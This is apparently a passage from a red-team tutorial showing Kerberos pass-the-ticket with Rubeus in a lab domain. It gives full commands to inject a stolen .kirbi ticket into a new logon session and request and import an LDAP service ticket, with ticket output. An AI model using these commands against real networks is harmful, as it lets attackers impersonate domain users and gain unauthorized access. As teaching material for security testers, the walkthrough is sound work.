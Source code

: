 To leverage Kerberos tickets, start a new process with a fake password using `Rubeus createnetonly` and the `/show` parameter.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /domain:CONTOSO.COM /username:rsteel /password:FakePass /program:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ticket:C:\Users\Attacker\Desktop\rsteel.kirbi /show
```

`Rubeus klist` in the new window will confirm the ticket has been injected.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe klist

Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x27c136

  UserName                 : Attacker
  Domain                   : DESKTOP-FGSTPS7
  LogonId                  : 0x27c136
  UserSID                  : S-1-5-21-2869105692-1800599516-1289031363-1005
  AuthenticationPackage    : Negotiate
  LogonType                : NewCredentials
  LogonTime                : 28/04/2025 12:48:18
  LogonServer              :
  LogonServerDNSDomain     :
  UserPrincipalName        :

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 28/04/2025 12:30:43 ; 28/04/2025 22:30:43 ; 05/05/2025 12:30:43
      Server Name       : krbtgt/CONTOSO.COM @ CONTOSO.COM
      Client Name       : rsteel @ CONTOSO.COM
      Flags             : name_canonicalize, pre_authent, initial, renewable, forwardable (40e10000)
```

We also need to request service tickets manually, rather than relying on Windows doing it magically for us.  For example, to query Active Directory, use `asktgs` to get a ticket for LDAP and pass it directly into this logon session.

```powershell
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:ldap/lon-dc-1 /ticket:C:\Users\Attacker\Desktop\rsteel.kirbi /dc:lon-dc-1 /ptt

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'ldap/lon-dc-1'
[*] Using domain controller: lon-dc-1 (10.10.120.1)
[+] TGS request successful!
[+] Ticket successfully imported!
[*] base64(ticket.kirbi):

      doIFl[...snip...]kYy0x

  ServiceName              :  ldap/lon-dc-1
  ServiceRealm             :  CONTOSO.COM
  UserName                 :  rsteel (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  28/04/2025 12:51:42
  EndTime                  :  28/04/2025 22:30:43
  RenewTill                :  05/05/2025 12:30:43
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  1PJYuYDQZDWNXR9MUpQxMGFbcFWKj9t6S01HXqUaobQ=
```